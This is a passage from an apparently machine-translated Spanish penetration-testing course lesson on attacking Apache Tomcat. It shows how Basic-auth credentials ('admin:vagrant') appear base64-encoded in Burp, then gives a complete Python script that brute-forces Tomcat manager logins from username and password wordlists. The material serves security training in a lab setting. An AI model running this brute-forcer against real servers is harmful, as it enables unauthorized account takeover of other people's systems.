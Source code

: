 Podemos ver en Burp exactamente cómo funciona el escáner, teniendo en cuenta cada par de credenciales y codificando base64 para la autenticación básica que usa Tomcat.

![](https://academy.hackthebox.com/storage/modules/113/burp_tomcat.png)

Una verificación rápida del valor en el`Authorization`El encabezado para una solicitud muestra que el escáner se está ejecutando correctamente, Base64 codificando las credenciales`admin:vagrant`La forma en que lo haría la aplicación Tomcat cuando un usuario intenta iniciar sesión directamente desde la aplicación web. Pruebe esto para obtener algunos ejemplos a lo largo de este módulo para comenzar a sentirse cómodo con la depuración a través de un proxy.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ echo YWRtaW46dmFncmFudA== |base64 -dadmin:vagrant

```

También podemos usar[este](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)Script Python para lograr el mismo resultado.

Código:pitón

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
```